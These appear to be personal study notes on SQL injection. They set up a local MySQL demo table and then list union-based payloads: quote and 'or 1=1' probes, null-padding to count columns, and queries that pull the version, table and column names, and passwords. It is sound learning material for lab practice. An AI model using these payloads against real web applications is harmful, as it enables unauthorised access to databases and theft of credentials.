 <https://portswigger.net/web-security/sql-injection/cheat-sheet> #sql   
<https://appsecexplained.gitbook.io/appsecexplained/common-vulns/sql-injection-overview >
## Introduction 

```shell
sudo systemctl start mysql # start the mysql service
sudo mysql # login

# create DB and tables
CREATE DATABASE sqldemo; 
use sqldemo;
CREATE TABLE users(
	username varchar(255),
	password varchar(255),
	age int,
	PRIMARY KEY (username)

);
# insert data
INSERT INTO USERS (username,password,age)
VALUES("jeremy","letmein",30);

# QUERY DB
show databases;
show tables;
select * from users;
select age from users where username = "jeremy";
select age from users where username = "jeremy" union select password from users;
```

## Union
* Test if  SQL injection is possible by trying to generate an error in the DB/Web APP
	* Try sending single quote '  or double quotes ", to see if Error is generated
		*  `jeremy' `   
		* `jeremy"`
	* Try Logical operator  
		* `jeremy' or 1=1#`   
		* `jeremy' or 1=1-- -`
	* 
![[2-SQL Injection-union.png]]

* When Union selecting, you have to determine # of columns being used in the application
* `jeremy' union select null,null#`
* keep adding more nulls onto this query until you get a result
	* `jeremy' union select null,null,null,null#`
* Once you have determined the # of columns in the DB, you should be able to query for more things
```sql
jeremy' union select null,null,version()#  
jeremy' union select null,null,table_name from information_schema.tables#
jeremy' union select null,null,column_name from information_schema.columns#
jeremy' union select null,null,password from injection0x01#
```
![[2-SQL Injection-union-tables.png]]
* If the column data type is not compatible with string data, the injected query will cause a database error, such as: "`Conversion failed when converting the varchar value 'a' to data type int.`"
	* For instance, if there was an int, instead of a string, and you try to union select a string into a column that contains an int, you'll get an errror. So you'll have to play around and try basic integers, to see what matches up and works
	* `jeremy' union select null(int),1,null,null,password from injection0x01#`



